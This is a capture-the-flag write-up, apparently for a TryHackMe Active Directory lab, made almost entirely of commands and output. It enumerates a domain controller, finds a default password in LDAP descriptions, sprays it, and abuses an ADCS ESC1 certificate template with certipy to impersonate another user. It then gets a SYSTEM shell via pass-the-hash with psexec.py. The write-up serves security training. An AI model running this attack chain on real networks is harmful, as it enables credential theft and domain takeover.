


# Ledger

This challenge simulates a real cyber-attack scenario where you must exploit an Active Directory.

Level: Hard

Type: Active Directory

##  Scanning

``nxc smb target $TARGET``                        

    SMB         10.10.54.250    445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)

---------

``nmap -A -sV $TARGET``

    Starting Nmap 7.93 ( https://nmap.org ) at 2025-11-14 13:03 CET
    Nmap scan report for 10.10.54.250
    Host is up (0.032s latency).
    Not shown: 986 closed tcp ports (reset)
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    80/tcp   open  http          Microsoft IIS httpd 10.0
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-title: IIS Windows Server
    |_http-server-header: Microsoft-IIS/10.0
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-14 12:03:37Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
    |_ssl-date: 2025-11-14T12:04:36+00:00; 0s from scanner time.
    | ssl-cert: Subject:
    | Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
    | Not valid before: 2023-05-12T07:32:36
    |_Not valid after:  2024-05-11T07:32:36
    443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-title: IIS Windows Server
    | ssl-cert: Subject: commonName=thm-LABYRINTH-CA
    | Not valid before: 2023-05-12T07:26:00
    |_Not valid after:  2028-05-12T07:35:59
    |_http-server-header: Microsoft-IIS/10.0
    | tls-alpn:
    |_  http/1.1
    |_ssl-date: 2025-11-14T12:04:35+00:00; -1s from scanner time.
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap
    | ssl-cert: Subject:
    | Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
    | Not valid before: 2023-05-12T07:32:36
    |_Not valid after:  2024-05-11T07:32:36
    |_ssl-date: 2025-11-14T12:04:35+00:00; -1s from scanner time.
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
    |_ssl-date: 2025-11-14T12:04:35+00:00; -1s from scanner time.
    | ssl-cert: Subject:
    | Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
    | Not valid before: 2023-05-12T07:32:36
    |_Not valid after:  2024-05-11T07:32:36
    3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
    | ssl-cert: Subject:
    | Subject Alternative Name: DNS:labyrinth.thm.local, DNS:thm.local, DNS:THM
    | Not valid before: 2023-05-12T07:32:36
    |_Not valid after:  2024-05-11T07:32:36
    |_ssl-date: 2025-11-14T12:04:35+00:00; -1s from scanner time.
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | ssl-cert: Subject: commonName=labyrinth.thm.local
    | Not valid before: 2025-11-13T12:02:31
    |_Not valid after:  2026-05-15T12:02:31
    |_ssl-date: 2025-11-14T12:04:35+00:00; -1s from scanner time.
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=11/14%OT=53%CT=1%CU=32613%PV=Y%DS=2%DC=T%G=Y%TM=69171A
    OS:D5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S%TS
    OS:=U)SEQ(SP=105%GCD=2%ISR=10B%TI=I%CI=I%TS=U)OPS(O1=M509NW8NNS%O2=M509NW8N
    OS:NS%O3=M509NW8%O4=M509NW8NNS%O5=M509NW8NNS%O6=M509NNS)WIN(W1=FFFF%W2=FFFF
    OS:%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M509NW8NNS%C
    OS:C=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A
    OS:=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%D
    OS:F=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O
    OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W
    OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%R
    OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

    Network Distance: 2 hops
    Service Info: Host: LABYRINTH; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-time:
    |   date: 2025-11-14T12:04:28
    |_  start_date: N/A
    | smb2-security-mode:
    |   311:
    |_    Message signing enabled and required

    TRACEROUTE (using port 80/tcp)
    HOP RTT      ADDRESS
    1   31.47 ms 10.21.0.1
    2   31.74 ms 10.10.54.250

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 68.16 second

---------

``nxc smb $TARGET  --rid-brute 10000``

    SMB         10.10.54.250    445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)
    SMB         10.10.54.250    445    LABYRINTH        498: THM\Enterprise Read-only Domain Controllers (SidTypeGroup)
    SMB         10.10.54.250    445    LABYRINTH        500: THM\Administrator (SidTypeUser)
    SMB         10.10.54.250    445    LABYRINTH        501: THM\Guest (SidTypeUser)
    SMB         10.10.54.250    445    LABYRINTH        502: THM\krbtgt (SidTypeUser)
    SMB         10.10.54.250    445    LABYRINTH        1118: THM\BRET_DONALDSON (SidTypeUser)
    ...
    SMB         10.10.54.250    445    LABYRINTH        1215: THM\ELTON_WIGGINS (SidTypeUser)
    SMB         10.10.54.250    445    LABYRINTH        1217: THM\JULIA_RIOS (SidTypeUser)
    SMB         10.10.54.250    445    LABYRINTH        1218: THM\RUBIN_BANKS (SidTypeUser)
    SMB         10.10.54.250    445    LABYRINTH        1219: THM\QUEEN_GARNER (SidTypeUser)

---------

``nxc smb $TARGET  --rid-brute 10000 | cut -d "\\" -f2 | cut -d " " -f1 > users.txt``

---------

``ldapsearch -x -H ldap://$TARGET -s base``       

    # extended LDIF
    #
    # LDAPv3
    # base <> (default) with scope baseObject
    # filter: (objectclass=*)
    # requesting: ALL
    #

    #
    dn:
    domainFunctionality: 7
    forestFunctionality: 7
    domainControllerFunctionality: 7
    rootDomainNamingContext: DC=thm,DC=local
    ldapServiceName: thm.local:labyrinth$@THM.LOCAL
    isGlobalCatalogReady: TRUE
    supportedSASLMechanisms: GSSAPI
    supportedSASLMechanisms: GSS-SPNEGO
    supportedSASLMechanisms: EXTERNAL
    supportedSASLMechanisms: DIGEST-MD5
    supportedLDAPVersion: 3
    supportedLDAPVersion: 2
    supportedLDAPPolicies: MaxPoolThreads
    supportedLDAPPolicies: MaxPercentDirSyncRequests
    supportedLDAPPolicies: MaxDatagramRecv
    supportedLDAPPolicies: MaxReceiveBuffer
    supportedLDAPPolicies: InitRecvTimeout
    supportedLDAPPolicies: MaxConnections
    supportedLDAPPolicies: MaxConnIdleTime
    supportedLDAPPolicies: MaxPageSize
    supportedLDAPPolicies: MaxBatchReturnMessages
    supportedLDAPPolicies: MaxQueryDuration
    supportedLDAPPolicies: MaxDirSyncDuration
    supportedLDAPPolicies: MaxTempTableSize
    supportedLDAPPolicies: MaxResultSetSize
    supportedLDAPPolicies: MinResultSets
    supportedLDAPPolicies: MaxResultSetsPerConn
    supportedLDAPPolicies: MaxNotificationPerConn
    supportedLDAPPolicies: MaxValRange
    supportedLDAPPolicies: MaxValRangeTransitive
    supportedLDAPPolicies: ThreadMemoryLimit
    supportedLDAPPolicies: SystemMemoryLimitPercent
    supportedControl: 1.2.840.113556.1.4.319
    supportedControl: 1.2.840.113556.1.4.801
    supportedControl: 1.2.840.113556.1.4.473
    supportedControl: 1.2.840.113556.1.4.528
    supportedControl: 1.2.840.113556.1.4.417
    supportedControl: 1.2.840.113556.1.4.619
    supportedControl: 1.2.840.113556.1.4.841
    supportedControl: 1.2.840.113556.1.4.529
    supportedControl: 1.2.840.113556.1.4.805
    supportedControl: 1.2.840.113556.1.4.521
    supportedControl: 1.2.840.113556.1.4.970
    supportedControl: 1.2.840.113556.1.4.1338
    supportedControl: 1.2.840.113556.1.4.474
    supportedControl: 1.2.840.113556.1.4.1339
    supportedControl: 1.2.840.113556.1.4.1340
    supportedControl: 1.2.840.113556.1.4.1413
    supportedControl: 2.16.840.1.113730.3.4.9
    supportedControl: 2.16.840.1.113730.3.4.10
    supportedControl: 1.2.840.113556.1.4.1504
    supportedControl: 1.2.840.113556.1.4.1852
    supportedControl: 1.2.840.113556.1.4.802
    supportedControl: 1.2.840.113556.1.4.1907
    supportedControl: 1.2.840.113556.1.4.1948
    supportedControl: 1.2.840.113556.1.4.1974
    supportedControl: 1.2.840.113556.1.4.1341
    supportedControl: 1.2.840.113556.1.4.2026
    supportedControl: 1.2.840.113556.1.4.2064
    supportedControl: 1.2.840.113556.1.4.2065
    supportedControl: 1.2.840.113556.1.4.2066
    supportedControl: 1.2.840.113556.1.4.2090
    supportedControl: 1.2.840.113556.1.4.2205
    supportedControl: 1.2.840.113556.1.4.2204
    supportedControl: 1.2.840.113556.1.4.2206
    supportedControl: 1.2.840.113556.1.4.2211
    supportedControl: 1.2.840.113556.1.4.2239
    supportedControl: 1.2.840.113556.1.4.2255
    supportedControl: 1.2.840.113556.1.4.2256
    supportedControl: 1.2.840.113556.1.4.2309
    supportedControl: 1.2.840.113556.1.4.2330
    supportedControl: 1.2.840.113556.1.4.2354
    supportedCapabilities: 1.2.840.113556.1.4.800
    supportedCapabilities: 1.2.840.113556.1.4.1670
    supportedCapabilities: 1.2.840.113556.1.4.1791
    supportedCapabilities: 1.2.840.113556.1.4.1935
    supportedCapabilities: 1.2.840.113556.1.4.2080
    supportedCapabilities: 1.2.840.113556.1.4.2237
    subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=thm,DC=local
    serverName: CN=LABYRINTH,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Con
    figuration,DC=thm,DC=local
    schemaNamingContext: CN=Schema,CN=Configuration,DC=thm,DC=local
    namingContexts: DC=thm,DC=local
    namingContexts: CN=Configuration,DC=thm,DC=local
    namingContexts: CN=Schema,CN=Configuration,DC=thm,DC=local
    namingContexts: DC=DomainDnsZones,DC=thm,DC=local
    namingContexts: DC=ForestDnsZones,DC=thm,DC=local
    isSynchronized: TRUE
    highestCommittedUSN: 163911
    dsServiceName: CN=NTDS Settings,CN=LABYRINTH,CN=Servers,CN=Default-First-Site-
    Name,CN=Sites,CN=Configuration,DC=thm,DC=local
    dnsHostName: labyrinth.thm.local
    defaultNamingContext: DC=thm,DC=local
    currentTime: 20251114120825.0Z
    configurationNamingContext: CN=Configuration,DC=thm,DC=local

    # search result
    search: 2
    result: 0 Success

    # numResponses: 2
    # numEntries: 1

-----------

``ldapsearch -x -H ldap://$TARGET -b "dc=thm,dc=local" > ldaplisting.txt``

-----------

``cat ldaplisting.txt | grep "description"``

    description: Tier 1 User
    description: Tier 1 User
    description: Please change it: CHANGEME2023!
    description: Tier 1 User
    description: Tier 1 User
    description: Please change it: CHANGEME2023!
    description: Tier 1 User
    description: Tier 1 User
    description: Tier 1 User
    description: Tier 1 User

-----------

``nxc ldap $TARGET -u users.txt -p 'CHANGEME2023!' --continue-on-success``

    LDAP        10.10.54.250    389    LABYRINTH        [+] thm.local\IVY_WILLIS:CHANGEME2023!
    LDAP        10.10.54.250    389    LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:CHANGEME2023!

-----------

``smbclient -L //$TARGET -U IVY_WILLIS%CHANGEME2023! -W THM.LOCAL``

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share

    SMB1 disabled -- no workgroup available

``smbclient -L //$TARGET -U SUSANNA_MCKNIGHT%CHANGEME2023! -W THM.LOCAL``

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share

    SMB1 disabled -- no workgroup available

-------------

Connexion RDP possible depuis le compte SUSANNA_MCKNIGHT -> user flag sur le bureau de l'utilisateur

-------------

``bloodhound.py --zip -c All -d "thm.local" -u "SUSANNA_MCKNIGHT" -p 'CHANGEME2023!' -dc LABYRINTH.thm.local --disable-autogc -ns $TARGET``

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    INFO: Found AD domain: thm.local
    INFO: Getting TGT for user
    INFO: Connecting to LDAP server: LABYRINTH.thm.local
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: LABYRINTH.thm.local
    INFO: Found 493 users
    INFO: Found 52 groups
    INFO: Found 2 gpos
    INFO: Found 222 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: labyrinth.thm.local
    INFO: Done in 00M 14S
    INFO: Compressing output into 20251114133138_bloodhound.zip

-----------

Chemin le plus court vers le groupe domain admin depuis le compte de SUSANNA

--------------

``certipy find -u SUSANNA_MCKNIGHT -p 'CHANGEME2023!' -dc-ip $TARGET -target thm.local -vulnerable  ``                                                   

    Certipy v5.0.3 - by Oliver Lyak (ly4k)

    [*] Finding certificate templates
    [*] Found 37 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 14 enabled certificate templates
    [*] Finding issuance policies
    [*] Found 21 issuance policies
    [*] Found 0 OIDs linked to templates
    [*] Retrieving CA configuration for 'thm-LABYRINTH-CA' via RRP
    [!] Failed to connect to remote registry. Service should be starting now. Trying again...
    [*] Successfully retrieved CA configuration for 'thm-LABYRINTH-CA'
    [*] Checking web enrollment for CA 'thm-LABYRINTH-CA' @ 'labyrinth.thm.local'
    [*] Saving text output to '20251114134101_Certipy.txt'
    [*] Wrote text output to '20251114134101_Certipy.txt'
    [*] Saving JSON output to '20251114134101_Certipy.json'
    [*] Wrote JSON output to '20251114134101_Certipy.json

------------

``cat 20251114134101_Certipy.txt``

    Certificate Authorities
      0
        CA Name                             : thm-LABYRINTH-CA
        DNS Name                            : labyrinth.thm.local
        Certificate Subject                 : CN=thm-LABYRINTH-CA, DC=thm, DC=local
        Certificate Serial Number           : 5225C02DD750EDB340E984BC75F09029
        Certificate Validity Start          : 2023-05-12 07:26:00+00:00
        Certificate Validity End            : 2028-05-12 07:35:59+00:00
        Web Enrollment
          HTTP
            Enabled                         : False
          HTTPS
            Enabled                         : False
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
        Permissions
          Owner                             : THM.LOCAL\Administrators
          Access Rights
            ManageCa                        : THM.LOCAL\Administrators
                                              THM.LOCAL\Domain Admins
                                              THM.LOCAL\Enterprise Admins
            ManageCertificates              : THM.LOCAL\Administrators
                                              THM.LOCAL\Domain Admins
                                              THM.LOCAL\Enterprise Admins
            Enroll                          : THM.LOCAL\Authenticated Users
    Certificate Templates
      0
        Template Name                       : ServerAuth
        Display Name                        : ServerAuth
        Certificate Authorities             : thm-LABYRINTH-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Extended Key Usage                  : Client Authentication
                                              Server Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Schema Version                      : 2
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Template Created                    : 2023-05-12T08:55:40+00:00
        Template Last Modified              : 2023-05-12T08:55:40+00:00
        Permissions
          Enrollment Permissions
            Enrollment Rights               : THM.LOCAL\Domain Admins
                                              THM.LOCAL\Domain Computers
                                              THM.LOCAL\Enterprise Admins
                                              THM.LOCAL\Authenticated Users
          Object Control Permissions
            Owner                           : THM.LOCAL\Administrator
            Full Control Principals         : THM.LOCAL\Domain Admins
                                              THM.LOCAL\Enterprise Admins
            Write Owner Principals          : THM.LOCAL\Domain Admins
                                              THM.LOCAL\Enterprise Admins
            Write Dacl Principals           : THM.LOCAL\Domain Admins
                                              THM.LOCAL\Enterprise Admins
            Write Property Enroll           : THM.LOCAL\Domain Admins
                                              THM.LOCAL\Domain Computers
                                              THM.LOCAL\Enterprise Admins
        [+] User Enrollable Principals      : THM.LOCAL\Authenticated Users
                                              THM.LOCAL\Domain Computers
        [!] Vulnerabilities
          ESC1                              : Enrollee supplies subject and template allows client authentication.

**Vulnérabilité ADCS ESC1** 

[Exploitation](https://www.hackingarticles.in/ad-certificate-exploitation-esc1/)

-------------------

``certipy req -u 'SUSANNA_MCKNIGHT@thm.local' -p 'CHANGEME2023!' -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'BRADLEY_ORTIZ@thm.local' -dc-ip $TARGET -target labyrinth.thm.local``

    Certipy v5.0.3 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Request ID is 30
    [*] Successfully requested certificate
    [*] Got certificate with UPN 'BRADLEY_ORTIZ@thm.local'
    [*] Certificate has no object SID
    [*] Try using -sid to set the object SID or see the wiki for more details
    [*] Saving certificate and private key to 'bradley_ortiz.pfx'
    File 'bradley_ortiz.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
    [*] Wrote certificate and private key to 'bradley_ortiz.pfx'

-------------------

``certipy auth -pfx bradley_ortiz.pfx -dc-ip $TARGET``

    Certipy v5.0.3 - by Oliver Lyak (ly4k)

    [*] Certificate identities:
    [*]     SAN UPN: 'BRADLEY_ORTIZ@thm.local'
    [*] Using principal: 'bradley_ortiz@thm.local'
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'bradley_ortiz.ccache'
    [*] Trying to retrieve NT hash for 'bradley_ortiz'
    [*] Got hash for 'bradley_ortiz@thm.local':aad3b435b51404eeaad3b435b51404ee:16ec319...b495d

-------------------

``psexec.py bradley_ortiz@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:16ec319...b495d``

    Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies

    [*] Requesting shares on 10.10.100.18.....
    [*] Found writable share ADMIN$
    [*] Uploading file oKansMmv.exe
    [*] Opening SVCManager on 10.10.100.18.....
    [*] Creating service BQXp on 10.10.100.18.....
    [*] Starting service BQXp.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.4377]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>

Root flag dans le bureau du compte Administrator